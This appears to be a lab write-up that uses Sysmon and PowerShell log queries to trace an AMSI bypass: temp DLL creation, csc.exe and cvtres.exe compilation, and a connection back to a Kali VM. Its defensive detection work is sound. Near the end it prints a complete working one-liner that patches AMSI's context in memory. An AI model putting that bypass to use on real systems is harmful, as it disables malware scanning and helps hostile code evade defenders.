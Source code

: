 ```pwsh
Get-SysmonEvent $null "12/22/2021 8:41:24" "12/22/2021 8:41:26"
```

We have several `FileCreate` and `ProcessCreate` events occurring at the same time as the AMSI bypass.

```pwsh
Get-SysmonEvent 11 "12/22/2021 8:41:24" "12/22/2021 8:41:25" | Format-List
```

2 unusual file creations taking place:

1. A DLL being written to the `Temp` directory with a randomly generated name.

2. A file with the `.cmdline` extension sharing the same name as the DLL.

```pwsh
Get-SysmonEvent 1 "12/22/2021 8:41:24" "12/22/2021 8:41:26" | Format-List
```

`csc.exe`, the command-line compiler for C#. The `/fullpath @` argument specifies a single file containing additional options to be invoked when compiling code.

`cvtres.exe`, invoked by the command-line compiler. This is the Windows Resource to Object Converter, which is part of the chain of binaries used for code compilation.

Based on the `ParentCommandLine` field, we can assume that this is part of the instructions contained in the `.cmdline` file. The instructions specific to `cvtres.exe` are displayed in the `CommandLine` field. 

=> The AMSI bypass script's patching mechanism involves spontaneously writing and compiling code to replace what is loaded in memory


The `DNSEvent` and `NetworkConnect` events are relevant to the use of `Invoke-Expression` connecting back to the Kali VM.

```pwsh
Get-SysmonEvent 11 "12/22/2021 8:41:25" "12/22/2021 8:41:26" | Format-List
```

The command-line compiler overwriting the DLL that was created before by PowerShell

```pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1); Get-Date
```

```pwsh
Get-PSLogEvent 4104 "12/22/2021 12:35:06" "12/22/2021 12:35:08"
```

```pwsh
Get-PSLogEvent 4104 "12/22/2021 12:35:06" "12/22/2021 12:35:08" | Where-Object { $_.LevelDisplayName -eq "Warning" } | Format-List
```

**Verbose** script block event
